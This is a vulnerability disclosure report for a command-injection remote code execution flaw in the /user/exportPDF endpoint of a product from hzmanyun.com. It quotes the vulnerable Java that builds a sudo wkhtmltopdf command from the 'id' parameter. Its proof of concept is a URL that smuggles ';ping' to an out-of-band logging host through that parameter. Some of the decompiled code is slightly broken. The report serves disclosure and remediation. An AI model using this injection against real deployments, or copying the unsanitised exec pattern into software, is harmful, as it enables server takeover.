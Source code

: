 ![image-20250225202350250](./assets/image-20250225202350250.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:  Remote Code Execution (RCE) in User ExportPDF Functionality

### Summary:
The code snippet provided contains a vulnerability that allows an attacker to execute arbitrary commands on the server, leading to Remote Code Execution (RCE) due to improper handling of user input.

### Affected Endpoint:
`/user/exportPDF`

### Vulnerability Type:
Remote Code Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/user/exportPDF"})
public void exportPDF(HttpServletResponse response, @RequestParam("id") String id) {
   try {
      Runtime run = Runtime.getRuntime();
      String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
      String fileName = System.currentTimeMillis() + ".pdf";
      String filePath = rootPath + "/pdffile/" + fileName;
      File dir = new File(rootPath + "/pdffile/");
      if (!dir.exists()) {
         dir.mkdir();
      }

      Process process = run.exec("sudo wkhtmltopdf " + CommonConstants.contextPath + "/user/info?id=" + id + " " + filePath);
      process.waitFor();
      response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
      InputStream in = new FileInputStream(new File(filePath));
      int len = false;
      byte[] buf = new byte[1024];
      OutputStream out = response.getOutputStream();

      int len;
      while((len = in.read(buf)) > 0) {
         out.write(buf, 0, len);
      }

      in.close();
   } catch (Exception var13) {
      logger.error("---------------------" + var13);
   }
}
```

### Proof of Concept (PoC):
```
http://uri/user/exportPDF?id=1;ping 0d40b02f.log.nat.cloudns.ph.;
```

![image-20250225210521749](./assets/image-20250225210521749.png)

### Impact:

An attacker can exploit this vulnerability by injecting malicious commands through the 'id' parameter in the URL, potentially leading to unauthorized access, data leakage, or complete system compromise.

### Recommendation:
1. Sanitize and validate user input to prevent command injection attacks.
2. Avoid using user-controlled input directly in command execution.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.
4. Regularly update and patch software dependencies to prevent known vulnerabilities.

### Conclusion:
The presence of this RCE vulnerability in the code poses a significant security risk to the application and its users. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
- OWASP Command Injection: https://owasp.org/www-community/attacks/Command_Injection
